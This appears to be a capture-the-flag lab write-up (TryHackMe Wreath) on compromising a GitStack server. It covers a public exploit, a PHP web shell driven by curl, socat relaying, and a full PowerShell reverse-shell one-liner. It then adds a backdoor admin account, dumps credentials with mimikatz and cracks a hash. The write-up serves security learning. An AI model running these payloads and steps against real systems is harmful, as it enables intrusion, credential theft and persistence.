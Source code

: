 # git server exploitation

going to http://10.200.187.150 brings a 404 error, but trying out some of the links on the error page directs us to login page

![](../APPENDIX/screenshot_gitserver.png)

![](../APPENDIX/screenshot_gitserver_login.png)

Default credentials did not work, searched for exploits on searchsploit.

Used the command `searchsploit gitstack` to search for exploits related to gitstack.

![](../APPENDIX/searchsploit.png)

Made copy of exploit into local directory:

```bash
mv 43777.py Desktop/thm/wreath
```

Convert from DOS to Unix:

```bash
dos2unix 43777.py
```

Added `#!/usr/env/python2` at the top of the script. Edited values in 43777.py to match target details, such as target IP. Command was left as `whoami`.

Ran Python script:

```bash
./43777.py
```

![](../APPENDIX/python_script_executed.png)

Note that the `whoami` command returned `nt authority\system`, meaning we have root access to the machine.

Using curl to interact with PHP shell:

```bash
curl -X POST http://10.200.187.150/web/exploit.php -d "a=whoami"
```

![](../APPENDIX/curl.png)

We get `nt authority\system` again.


Using burpsuite to do the same thing:

![](../APPENDIX/burpsuite.png)

Got details such as user running gitserver, hostname, etc.

**Using socat to perform lateral movement:**

Transfering socat from AttackBox to GitServer:

On Kali, in a directory with the `socat` binary:
```bash
python3 -m http.server 8081
```

On WebServer:

```bash
curl 10.50.184.50:8081/socat -o socat-fyr
firewall-cmd --zone=public --add-port 15555/tcp
chmod +x socat-fyr
```

Back on Kali:

```bash
sudo nc -nvlp 443
```

On WebServer:

```bash
./socat-fyr tcp-l:15555 tcp:10.50.187.50:443 &
```

Used Burp tp send a reverse shell:

Insert this command into "a" parameter:

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('100.200.187.200',15555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](../APPENDIX/burp_ps_reverse_shell.png)

Did `CTRL + U` for URL encoding:

![](../APPENDIX/burp_ps_reverse_shell_url_encoded.png)

Sent request, obtained shell from Kali:

![](../APPENDIX/gitserver_revshell.png)

Added new privileged user in Administrator and Remote Management User groups:

![](../APPENDIX/ps_new_user.png)

Used `evil-winrm` to remotely access .150 from Kali:

![](../APPENDIX/evil-winrm.png)

Used `xfreerdp` to do something similar:

![](../APPENDIX/rdp.png)

(I made a new account called fyrw)

Made a new `xfreerdp` session with following parameters:

```bash
xfreerdp /u:fyrw /p:'Password1!' /v:10.200.187.150 /dynamic-resolution +clipboard /drive:/usr/share/windows-resources,fyr-share
```

This added a file share connecting Kali to .150 called "fyr-share", which is linked to `/usr/share/windows-resources`. It has mimikatz.

![](../APPENDIX/file_share.png)

Ran PS as admin, executed mimikatz.exe from file share:

![](../APPENDIX/mimikatz.png)

Used privilege escalation methods to gain SYSTEM integrity, then dumped hashes using `lsa::dump`:

![](../APPENDIX/mimikatz_lsadump.png)

The entire log can be viewed under APPENDIX/mimikatz-fyr.log.

User called "Thomas" hash cracked:

![](../APPENDIX/crackstation.png)

Used `evil-winrm` again to login as Administrator:

![](../APPENDIX/evil-winrm_admin.png)

